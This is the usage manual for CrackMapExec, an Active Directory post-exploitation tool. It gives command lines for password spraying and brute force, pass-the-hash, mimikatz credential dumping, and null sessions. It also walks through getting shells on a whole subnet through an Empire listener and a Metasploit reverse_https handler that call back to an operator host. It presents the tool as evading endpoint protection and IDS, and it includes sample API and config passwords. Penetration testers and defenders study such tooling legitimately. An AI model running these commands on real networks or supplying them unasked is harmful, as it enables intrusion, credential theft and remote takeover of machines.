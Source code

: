 **********************************************************
CrackMapExec
**********************************************************


CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. Built with stealth in mind, CME follows the concept of "Living off the Land": abusing built-in Active Directory features/protocols to achieve it's functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.

CME makes heavy use of the Impacket library (developed by @asolino) and the PowerSploit Toolkit (developed by @mattifestation) for working with network protocols and performing a variety of post-exploitation techniques.

Although meant to be used primarily for offensive purposes (e.g. red teams), CME can be used by blue teams as well to assess account privileges, find possible misconfigurations and simulate attack scenarios.

CrackMapExec is developed by @byt3bl33d3r


.. image:: img/logo_cme.jpg


General
==========


To use a specific protocol run

::

  cme <protocol> <protocol options>


To get help
^^^^^^^^^^

::

  #~ cme --help
 usage: cme [-h] [-v] [-t THREADS] [--timeout TIMEOUT] [--jitter INTERVAL]
           [--darrell] [--verbose]
           {http,smb,mssql} ...

      ______ .______           ___        ______  __  ___ .___  ___.      ___      .______    _______ ___   ___  _______   ______
     /      ||   _  \         /   \      /      ||  |/  / |   \/   |     /   \     |   _  \  |   ____|\  \ /  / |   ____| /      |
    |  ,----'|  |_)  |       /  ^  \    |  ,----'|  '  /  |  \  /  |    /  ^  \    |  |_)  | |  |__    \  V  /  |  |__   |  ,----'
    |  |     |      /       /  /_\  \   |  |     |    <   |  |\/|  |   /  /_\  \   |   ___/  |   __|    >   <   |   __|  |  |
    |  `----.|  |\  \----. /  _____  \  |  `----.|  .  \  |  |  |  |  /  _____  \  |  |      |  |____  /  .  \  |  |____ |  `----.
     \______|| _| `._____|/__/     \__\  \______||__|\__\ |__|  |__| /__/     \__\ | _|      |_______|/__/ \__\ |_______| \______|

                                         A swiss army knife for pentesting networks
                                    Forged by @byt3bl33d3r using the powah of dank memes

                                                      Version: 4.0.0dev
                                                     Codename: 'Sercurty'

 optional arguments:
  -h, --help         show this help message and exit
  -v, --version      show program's version number and exit
  -t THREADS         set how many concurrent threads to use (default: 100)
  --timeout TIMEOUT  max timeout in seconds of each thread (default: None)
  --jitter INTERVAL  sets a random delay between each connection (default: None)
  --darrell          give Darrell a hand
  --verbose          enable verbose output

 protocols:
  available protocols

  {http,smb,mssql}
    http             own stuff using HTTP(S)
    smb              own stuff using SMB and/or Active Directory
    mssql            own stuff using MSSQL and/or Active Directory



retrieveng help for specific protocol

::

  #~ cme smb --help
 usage: cme smb [-h] [-id CRED_ID [CRED_ID ...]] [-u USERNAME [USERNAME ...]]
               [-p PASSWORD [PASSWORD ...]]
               [--gfail-limit LIMIT | --ufail-limit LIMIT | --fail-limit LIMIT]
               [-M MODULE] [-o MODULE_OPTION [MODULE_OPTION ...]] [-L]
               [--options] [--server {http,https}] [--server-host HOST]
               [--server-port PORT] [-H HASH [HASH ...]]
               [-d DOMAIN | --local-auth] [--smb-port {139,445}]
               [--share SHARE] [--gen-relay-list OUTPUT_FILE]
               [--sam | --lsa | --ntds {vss,drsuapi}] [--shares] [--sessions]
               [--disks] [--loggedon-users] [--users [USER]]
               [--groups [GROUP]] [--local-groups [GROUP]] [--pass-pol]
               [--rid-brute [MAX_RID]] [--wmi QUERY]
               [--wmi-namespace NAMESPACE] [--spider SHARE]
               [--spider-folder FOLDER] [--content] [--exclude-dirs DIR_LIST]
               [--pattern PATTERN [PATTERN ...] | --regex REGEX [REGEX ...]]
               [--depth DEPTH] [--only-files]
               [--exec-method {mmcexec,smbexec,wmiexec,atexec}] [--force-ps32]
               [--no-output] [-x COMMAND | -X PS_COMMAND]
               [target [target ...]]

 positional arguments:
  target                the target IP(s), range(s), CIDR(s), hostname(s),
                        FQDN(s) or file(s) containg a list of targets

 optional arguments:
  -h, --help            show this help message and exit
  -id CRED_ID [CRED_ID ...]
                        database credential ID(s) to use for authentication
  -u USERNAME [USERNAME ...]
                        username(s) or file(s) containing usernames
  -p PASSWORD [PASSWORD ...]
                        password(s) or file(s) containing passwords
  --gfail-limit LIMIT   max number of global failed login attempts
  --ufail-limit LIMIT   max number of failed login attempts per username
  --fail-limit LIMIT    max number of failed login attempts per host
  -M MODULE, --module MODULE
                        payload module to use
  -o MODULE_OPTION [MODULE_OPTION ...]
                        payload module options
  -L, --list-modules    list available modules
  --options             display module options
  --server {http,https}
                        use the selected server (default: https)
  --server-host HOST    IP to bind the server to (default: 0.0.0.0)
  --server-port PORT    start the server on the specified port
  -H HASH [HASH ...], --hash HASH [HASH ...]

 -- SNIP --



Target Formats
^^^^^^^^^^^^^^^^

Every protocol supports targets by CIDR notation(s), IP address(s), IP range(s), hostname(s), a file containing a list of targets or combination of all of the latter:


::

  crackmapexec <protocol> ms.evilcorp.org

 crackmapexec <protocol> 192.168.1.0 192.168.0.2

 crackmapexec <protocol> 192.168.1.0/24

 crackmapexec <protocol> 192.168.1.0-28 10.0.0.1-67

 crackmapexec <protocol> ~/targets.txt


Using Credentials
^^^^^^^^^^^^^^^^^^

Every protocol supports using credentials in one form or another. For details on using credentials with a specific protocol, see the appropriate wiki section.

Generally speaking, to use credentials, you can run the following commands:

::

  crackmapexec <protocol> <target(s)> -u username -p password


Note 1: When using usernames or passwords that contain special symbols, wrap them in single quotes to make your shell interpret them as a string.

EXAMPLE

::

  crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'


Note 2: Due to a bug in Python's argument parsing library, credentials beginning with a dash (-) will throw an expected at least one argument error message. To get around this, specify the credentials by using the 'long' argument format (note the = sign):


::

  crackmapexec <protocol> <target(s)> -u='-username' -p='-Admin!123@'



Using a credential set from the database
"""""""""""""""""""""""""


By specifying a credential ID (or multiple credential IDs) with the -id flag CME will automatically pull that credential from the back-end database and use it to authenticate (saves a lot of typing):

::

  crackmapexec <protocol> <target(s)> -id <cred ID(s)>



Brute Forcing & Password Spraying
"""""""""""""""""""""

All protocols support brute-forcing and password spraying. For details on brute-forcing/password spraying with a specific protocol, see the appropriate wiki section.

By specifying a file or multiple values CME will automatically brute-force logins for all targets using the specified protocol:

::

  crackmapexec <protocol> <target(s)> -u username1 -p password1 password2

 crackmapexec <protocol> <target(s)> -u username1 username2 -p password1

 crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords

 crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes



Using Modules
^^^^^^^^^^^^^^^^^


List them
"""""""""""""

::

   cme <protocol> -L

EXAMPLE

::

   #~ cme smb -L
 [*] met_inject                Downloads the Meterpreter stager and injects it into memory
 [*] get_keystrokes            Logs keys pressed, time and the active window
 [*] empire_exec               Uses Empire's RESTful API to generate a launcher for the specified listener and executes it

 -- SNIP --


To run a module
""""""""""""""""

::

  cme <protocol> <target(s)> -M <module name>

EXAMPLE

::

  crackmapexec smb <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz

Viewing module options
"""""""""""""""""

::

  cme <protocol> -M <module name> --options


EXAMPLE

::

  #~ cme smb -M mimikatz --options



Module options are specified with the -o flag. All options are specified in the form of KEY=value (msfvenom style)

Example

::

  #~ cme <protocol> <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'



Database
^^^^^^^^^^^^

CME automatically stores all used/dumped credentials (along with other information) in it's database which is setup on first run.

As of CME v4 each protocol has it's own database which makes things much more sane and allows for some awesome possibilities. Additionally, v4 introduces workspaces (similar to Metasploit).

For details and usage of a specific protocol's database see the appropriate wiki section.

All workspaces and their relative databases are stored in ~/.cme/workspaces

CME ships with a secondary command line script cmedb which abstracts interacting with the back-end database. Typing the command cmedb will drop you into a command shell:

::

  #~ cmedb
 cmedb (default) >


Workspaces
"""""""""""

The default workspace name is called 'default' (as represented within the prompt), once a workspace is selected everything that you do in CME will be stored in that workspace.

To create a workspace:

::

  cmedb (default) > workspace create test
 [*] Creating workspace 'test'
 [*] Initializing HTTP protocol database
 [*] Initializing SMB protocol database
 [*] Initializing MSSQL protocol database
 cmedb (test) >


To switch workspace:

::

  cmedb (test) > workspace default
 cmedb (default) >

Protocol DB
""""""""""""""

To access a protocol's database simply run proto <protocol>, for example:

::

  cmedb (test) > proto smb
 cmedb (test)(smb) >
 help

Using Credentials
================


Passing-the-Hash
^^^^^^^^^^^^^^


CME supports authenticating via SMB using Passing-The-Hash attacks with the -H flag:

::

  crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH

 crackmapexec smb <target(s)> -u username -H NTHASH



NULL Sessions
^^^^^^^^^^^^^^

You can log in with a null session by using '' as the username and/or password

::

  crackmapexec smb <target(s)> -u '' -p ''



Getting Shells
==============

We all love shells and that's why CME makes it as easy as possible to get them! There really is something magical about shelling a /24



Empire Agent
^^^^^^^^^^^^

We can use the empire_exec module to execute an Empire Agent's initial stager. In the background, the module connects to Empire's RESTful API, generates a launcher for the specified listener and executes it.


* First setup an Empire listener:


::

  (Empire: listeners) > set Name test
 (Empire: listeners) > set Host 192.168.10.3
 (Empire: listeners) > set Port 9090
 (Empire: listeners) > set CertPath data/empire.pem
 (Empire: listeners) > run
 (Empire: listeners) > list

 [*] Active listeners:

  ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
  --    ----              ----                                 -------   ------------   --------    ---------------
  1     test              http://192.168.10.3:9090                 native    5/0.0

 (Empire: listeners) >



* Start up Empire's RESTful API server:


::

  #~ python empire --rest --user empireadmin --pass Password123!

 [*] Loading modules from: /home/byt3bl33d3r/Tools/Empire/lib/modules/
  * Starting Empire RESTful API on port: 1337
  * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
  * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)


The username and password that CME uses to authenticate to Empire's RESTful API are stored in the cme.conf file located at ~/.cme/cme.conf:

::

  [Empire]
 api_host=127.0.0.1
 api_port=1337
 username=empireadmin
 password=Password123!

 [Metasploit]
 rpc_host=127.0.0.1
 rpc_port=55552
 password=abc123



* Then just run the empire_exec module and specify the listener name:


::

  #~ crackmapexec 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test


Meterpreter
^^^^^^^^^^^^^^

We can use the metinject module to directly inject meterpreter into memory using PowerSploit's Invoke-Shellcode.ps1 script.


* First setup your handler:


::

  msf > use exploit/multi/handler
 msf exploit(handler) > set payload windows/meterpreter/reverse_https
 payload => windows/meterpreter/reverse_https
 msf exploit(handler) > set LHOST 192.168.10.3
 LHOST => 192.168.10.3
 msf exploit(handler) > set exitonsession false
 exitonsession => false
 msf exploit(handler) > exploit -j
 [*] Exploit running as background job.

 [*] Started HTTPS reverse handler on https://192.168.10.3:8443
 msf exploit(handler) > [*] Starting the payload handler...


* Then just run the metinject module and specify the LHOST and LPORT values:


::

  #~ crackmapexec 192.168.10.0/24 -u username -p password -M metinject -o LHOST=192.168.10.3 LPORT=8443


.. todo :: FInish
